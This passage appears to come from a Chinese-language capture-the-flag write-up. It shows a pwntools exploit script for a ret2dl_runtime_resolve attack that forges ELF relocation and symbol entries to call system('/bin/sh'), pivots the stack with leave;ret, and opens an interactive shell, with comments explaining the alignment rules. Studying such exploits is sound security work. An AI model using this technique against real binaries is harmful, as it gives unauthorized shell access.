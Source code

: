 ```plain
payload1 += p32(writable_addr)
payload1 += p32(100)
c.send(payload1)

# 第二次调用 read 函数，写入我们伪造的 ROP 链
payload2 =  p32(plt0)   # 0x8048380
payload2 += p32(reloc_index) # 0x23dc 构成 read_plt-->read(a1,a2,a3),但是经过我们伪造的 reloc_index，使得调用了 system(a1)；a2,a3 就不需要了。
payload2 += p32(0xdeadbeef)  # 返回地址
payload2 += p32(writable_addr+80) # '/bin/sh\x00' addr
payload2 += p32(0)          
payload2 += p32(0)          
payload2 += Elf32_rel_plt_sys 
# 为什么是 rel -- > sym --> str 的顺序呢？
# 因为这是按照_dl_runtime_resolve 函数的运行模式来决定的，详情请见博文[核心所在]
payload2 += align*b'a'  
# 我现在理解的是我们伪造的 dynsym 结构体必须相对于 dynsym 的首地址是 0x10 对齐的，不然就会报错
# 感觉这一点，应该是根据底层实现函数的机制来决定的。
# 这是根据我们前面伪造关系的来决定的，对齐 dynsym 即是 sym 在栈中的地址-dynsym 能被 0x10 除尽
payload2 += Elf32_Sym_sys
payload2 += b'system\x00'
payload2 += (80-len(payload2))*b'a'
payload2 += b'/bin/sh\x00'
c.send(payload2)

# 第三次调用 read 函数，将栈迁移到我们 ROP 链的地方
payload3 =  0x28 * b'a'
payload3 += p32(writable_addr-4) # ebp
payload3 += p32(leave_ret) # eip
# gdb.attach(c)
# pause()
c.send(payload3)

c.interactive()
```

[![](assets/1709193429-63d0f69e399216cc6238aa33a43caa6c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226194926-1765e004-d49d-1.png)
